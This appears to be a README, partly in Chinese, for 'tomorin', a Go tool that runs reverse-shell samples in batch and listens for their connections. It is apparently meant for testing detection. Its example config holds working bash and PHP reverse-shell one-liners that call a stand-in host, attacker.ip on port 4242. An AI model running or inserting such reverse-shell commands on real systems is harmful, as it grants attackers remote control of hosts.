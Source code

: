 # tomorin 批量执行反弹 Shell 样本

## Build

```bash
go build -o ./bin/tomorin
```

## Usage

### Listening host 

在作为server的主机上执行 `./tomorin serve` 监听连接。当有外部主机连接上的时候，会发送一个命令。默认是 `whoami` 而且执行会 exit。

```
ubuntu@VM-0-5-ubuntu:~/source/tomorin$ ./bin/tomorin serve -h
Run reverse shell server

Usage:
  tomorin serve [flags]

Flags:
  -a, --address strings   Addresses to listen, each of which has the format of [PROTO:[IP:]]PORT. If PROTO is not specified, then "tcp" will be used. If IP is not specified, then "udp" will be used.
      --cmd string        Command to be executed once a remove host is connected (default "whoami && sleep 2")
      --cmd-exit          Whether to append an "exit" to the end of the provided cmd. This should always be true if you want a graceful exit on the remote shell. (default true)
  -h, --help              help for serve
      --tcp-timeout int   Timeout for each connection. Applied to TCP only (default 10)
```

监听 TCP 29007 和 UDP 29008 端口

```bash
./bin/tomorin serve -a tcp:29007 -a udp:29008
```

### Target host

`./tomorin run` 在目标主机上通过创建pty来执行反弹Shell。

```
ubuntu@VM-0-5-ubuntu:~/source/tomorin$ ./bin/tomorin run -h
Run reverse shell samples from current host

Usage:
  tomorin run [flags]

Flags:
  -c, --config string   Path to the config file (default "config.yml")
  -h, --help            help for run
      --timeout int     Timeout of each sample (default 10)
      --wait int        Timeout until the next sample (default 7)
```

编写 `config.yml`，把反弹Shell样本写入 `samples` 字段，把依赖项写入 `depends` 字段，比如

```yaml
depends:
- php
samples:
- name: 001
  script: bash -i >& /dev/tcp/attacker.ip/4242 0>&1
- name: 002
  script: php -r '$sock=fsockopen("attacker.ip",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```

确认所有依赖都无误之后，执行所有反弹Shell样本

```bash
./bin/tomorin run -c config.yml
```

## TODO

- [x] Reverse shell server
    - [x] TCP
    - [x] UDP
- [x] Execute in pty
- [ ] Execute in `exec.Command`
- [ ] Check dependencies
